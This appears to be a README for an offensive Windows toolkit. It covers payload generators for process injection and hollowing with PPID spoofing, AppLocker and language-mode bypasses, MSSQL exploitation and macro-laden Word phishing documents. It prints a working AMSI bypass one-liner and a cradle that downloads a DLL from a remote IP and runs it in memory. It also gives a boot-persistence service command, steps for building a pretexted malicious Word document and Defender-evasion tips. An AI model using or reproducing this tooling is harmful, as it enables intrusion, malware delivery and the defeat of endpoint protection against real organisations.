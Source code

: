 # Tools

Powerinject.py - Python3 script to generate .PS1 payloads that perform process injection.

Powerhollow.py - Python3 script to generate .PS1 payloads that perform process hollowing with PPID spoofing.

Formatshellcode.py - Python3 script to format C# shellcode output by msfvenom into proper format for use with Builder.exe.

Port_ipeggs.py - Python3 script to format C# shellcode output by msfvenom into proper format for user with Builder.exe. FOR USE WITH CLI PAYLOADS!

D_Invoke - C# project that produces D/invoke payloads (basic, injector, hollower + ppid spoof) in exe, dll, or service exe format.  Use pre-built builder.exe in the D_Invoke directory.

Builder - C# project that compiles to Builder.exe which will craft different .exe/.dll payloads from Template.cs files in other projects.

Hollow - C# project that compiles to Hollow.exe which performs process hollowing with PPID spoofing.

Runnerinject - C# project that compiles to Runnerinject.exe which performs process injection.

clinject - C# project source code for (IP + port + process) cli passed process injection payload.

clhollow - C# project source code for (IP + port + PPID + process) cli passed process hollowing payload.

Servicehollow - C# project that compiles to a service exe that performs process hollowing + ppid spoofing.  Create service that will run as system on computer boot with sc create <servicename> binpath= c:\path\to\file.exe start= auto

bypass-clm - C# project source code for InstallUtil bypass for executing powershell commands interactively via cli.  Contains AMSI patch

sql - C# project source code for SQL.exe project for exploitation of MSSQL servers in AD.

x64_met_staged_reversetcp_inject.exe - Command line args: IP PORT PROCESS_TO_INJECT(explorer)

x64_met_staged_reversetcp_hollow.exe - Command line args: IP PORT PROCESS_TO_HOLLOW(c:\\windows\\system32\\svchost.exe) PPID_SPOOF(explorer) 

bypass-ps.exe - For use with InstallUtil. Contains AMSI binary patch. Will start an interactive powershell session in FullLanguageMode.

sql.exe - x64 application for exploitation of linked SQL servers.  Has functionality for use with InstallUtil AppLocker bypass.

pscradle.docm - Word doc with caeser cipher encoding that calls powershell download cradle.  Use with vbobfuscate.ps1 to generate and replace obfuscated text in pscradle.docm.

vbobfuscate.ps1 - ps1 to generate caeser cipher code for pscradle.  Make sure offsets match for encrypt/decrypt. First output is download cradle, last is app name for app name check before running. 


# NOTES
  
Powershell AMSI bypass:
  
  $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
  
 Powershell Dll download cradle (replace ip/file name but leave rest as is when using D/invoke builder generated payloads!):
  
 $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.195/basic.dll');$assem = [System.Reflection.Assembly]::Load($data);$class = $assem.GetType("dll.Class1");$method = $class.GetMethod("runner");$method.Invoke(0, $null)  
  
With Powerinject/Powerhollow make sure you think about whether you will be calling PS download cradle from powershell or cmd.exe and use the appropriate mode when constructing payloads.  When you call powershell.exe <cradle> from cmd.exe or even from another powershell window, you are creating a child process and while the embedded AMSI bypass may work for the child process the parent process will detect the child performing malicious actions and flag it.
  
Do NOT use msfvenom encoders with any Hollowing tool. Causes problems.
  
Injection tools:
    Your target for injection must be of the same integrity or lower than the method by which you have code execution.  I.e. if you are running in medium integrity you cannot inject into spoolsv, inject into explorer.
  
Hollowing tools:
    Your target parent process for PPID spoofing must be of the same integrity or lower than the method by which you have code execution. I.e. if you are running in medium integrity you cannot specify spoolsv as the parent process.  Hollowed process will inherity integrity of parent process.
  
To DO's:
  -Add Installutil bypass to D/invoke payload suite
  
  
  On Word Macros:
  
  WordMacroRunner - This is a baseline runner that will return a shell from WINWORD.exe. Has capabilities to detect AMSI and patch it if found (for both 32bit and 64 bit) as well as contains shellcode for both 32bit and 64 bit Word so it can execute after detecting architecture. 
  
  WordMacroInject - This macro performs process injection.  Currently specified for explorer.exe. NOTE: This runner is really only good for 64-bit word.  Seeing as we have no idea what version of word an organization will be running, the use case for this is limited.  The issue stems from the fact that 32 bit processes cannot easily inject into 64 bit ones; The presumed typical target environment will be running 32 bit word on a 64 bit OS, which renders the injection into explorer impossibly.  There are advanced techniques out there that might be able to facilitate this (Heaven's gate) but no idea if they could be implemented in VBA. Additionally there is no telling what/if any other 32 bit processes suitable for injetion might be running on a target machine.  In theory code could be written to enumerate running 32 bit processes and then just try to inject into an arbitrary one, but there are obvious issues concerning stability, and longevity of the process to maintain a reverse shell.  In reality just using a non-injecting runner and then setting up a C2 to automigrate is probably best practice as they are equipped to do so.
  
  Setup/formatting information:
  1. Write "legitimate" contents of the word doc, select all, then navigate to Insert > Quick Parts > AutoTexts and Save Selection to AutoText Gallery
  2. Give it a name, make sure it's saved to that particular document and not a template. Hit ok. Then delete the content from the body of the word doc.
  3. Copy in/write your pretexting content to the body of the word doc.  This is the piece that include "enable macros, hit this key combo to execute" etc.
  4. Go to Macro's and click record new macro.  Ensure on both screens you select the current document and not a template.  Click keyboard and then hit a key combination to map (e.g. Alt + D).  Once you hit ok/close, recording will begin.  Then go click macros again, view, select the main runner sub, and then click run.  This will map that sequence to Alt + D so that when it is entered the runner sub will be executed.
  
  To DOs:
  Integrate Injection runner with baseline runner so that injection is performed if x64 word is detected.
  
  Discoveries:
  Latest patch defender (Oct 2021) seems to have an "AND" based signature for AutoOpen().  It can be used in macros for benign purposes but as soon as API calls are included (or at least things used in shellcode runners), it flags signature based detection.
  RtlMoveMemory API call is signatured.  Use RtlFillMemory instead. 
  Resolve Amsi.dll and the function calls within it either dynamically or heavily obfuscated when you go to patch it.
  Starting in Word 2019 the program is 64 bit by default. This means Word 2019,O365,2021 are all good candidates for Injection because Orgs/individuals would have to go out of their way to have downloaded the 32 bit one.
  Meterpreter shells after using Migrate seem to get caught by defender sometimes... Doesn't seem to be the case for straight up injection payloads.
  
# RESOURCES
  https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
  https://secureyourit.co.uk/wp/2020/04/18/enumerating-process-modules-in-vba/
  
 
